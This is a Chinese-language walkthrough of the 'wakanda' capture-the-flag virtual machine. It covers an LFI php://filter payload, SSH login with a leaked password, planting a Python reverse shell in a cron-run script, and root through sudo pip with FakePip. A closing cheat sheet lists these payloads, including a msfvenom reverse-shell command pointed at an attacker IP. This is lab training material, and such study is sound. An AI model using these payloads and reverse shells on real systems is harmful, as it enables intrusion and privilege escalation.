wakanda writeup
靶机下载
学到的姿势
- 从python命令提示符到交互式shell
- 查找属于某用户的所有文件
- 用python开启HTTP服务
- fakepip
将靶机和攻击机设置为桥接，通过扫描即可发现靶机(vmware需要先设置桥接绑定的网卡，否则攻击机可能会无法联网)

然后nmap开路

发现开放了四个端口：80，111，3333，44086
首先查看http服务，随便点点都没有什么反应

查看一下源码，发现有一行很奇怪
传递参数后发现页面变成了法语

尝试一下LFI，发现会在最后添加php，payload如下?lang=php://filter/convert.base64-encode/resource=index
解码后得到源码
1 | <?php |
有一个password，推测可能是ssh登陆的password，尝试用网页上的用户名mamadou登陆ssh，成功

从python命令提示符到交互式shell
1 | import ptypty.spawn("/bin/bash") |

首先看一看可以用sudo执行的命令

发现无法执行，只能尝试用其他用户提权，查看其他用户

发现有其他用户devops，尝试查找该用户的所有文件(注：此处有的setup.py原本并没有，后续会提到)

命令解释：2为文件描述符，表示错误输出；/dev/null表示丢弃一切写入其中的数据，所以这样写会忽略所有报错信息
然后查看py文件，发现是向某一个文件夹写文件
把写入的文件删掉，过一段时间发现又有了，推测可能是后台有定时任务，一直在执行这个py文件，我们可以用来反弹shell
1 | import socket,subprocess,os |

读取flag2
接下来就该尝试提权到root了，同样，我们看一看可以sudo执行的命令

发现有pip，google搜一波，发现有一个叫FakePip的脚本，尝试一下，首先在攻击机上把脚本下载下来，然后更改setup.py
然后开启HTTP服务，就可以把攻击机里的脚本传到靶机里


这样我们就在靶机里得到了setup.py
首先在攻击机监听4444端口，然后根据readme里边的用法说明直接执行命令就可以了

可以看到，我们现在已经获取了root权限
最后，到根目录读取flag即可，本次靶机渗透测试也就结束了

命令备忘
- ?lang=php://filter/convert.base64-encode/resource=index
- ssh mamadou@192.168.43.199 -p 3333
- 从python命令提示符到交互式shell：import pty pty.spawn(“/bin/bash”)
- 查找属于某用户的所有文件：find / -user devops 2>/dev/null
- 生成msfvenom的反弹shell payload：msfvenom -p cmd/unix/reverse_python lhost=192.168.43.242 lport=2333 R
- 查看该用户能用sudo执行的命令：sudo -l
- 本地用python开启HTTP服务：python -m SimpleHTTPServer 80